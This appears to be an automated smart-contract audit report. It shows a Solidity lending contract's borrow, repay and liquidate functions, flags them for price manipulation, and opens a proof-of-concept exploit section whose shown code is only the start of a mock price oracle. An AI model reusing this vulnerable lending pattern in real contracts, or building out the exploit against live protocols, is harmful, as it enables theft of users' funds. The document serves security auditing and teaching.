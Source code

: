 ```solidity
        require(
            token.transfer(msg.sender, borrowAmount),
            "Token transfer failed"
        );
    }

function repayLoan() external {
        Loan memory loan = loans[msg.sender];
        require(loan.principal > 0, "No active loan");
        uint256 debt = getCurrentDebt(msg.sender);
        uint256 collateral = loan.collateral;
        delete loans[msg.sender];

        require(
            token.transferFrom(msg.sender, address(this), debt),
            "Token transfer failed"
        );
        (bool success, ) = msg.sender.call{value: collateral}("");
        require(success, "ETH refund failed");
    }

function liquidate(address borrower) external {
        require(isLiquidatable(borrower), "Loan not liquidatable");
        Loan memory loan = loans[borrower];
        uint256 debt = getCurrentDebt(borrower);
        uint256 collateral = loan.collateral;
        delete loans[borrower];
        require(
            token.transferFrom(msg.sender, address(this), debt),
            "Token transfer failed"
        );
        (bool success, ) = msg.sender.call{value: collateral}("");
        require(success, "Collateral transfer failed");
    }
```

**Affected Functions:** borrow, repayLoan, liquidate

---

## Proof of Concept Exploits

### PoC #1: price_manipulation

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742545773.sol

**Execution:** ✅ SUCCESS

**Exploit Code:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./basetest.sol";

/// @title PriceOracle - A mock price oracle contract for educational purposes
contract PriceOracle {
    uint256 public price;

    /// @notice Constructor sets the initial price.
    /// @param _initialPrice The initial price value.
    constructor(uint256 _initialPrice) {
        price = _initialPrice;
    }
```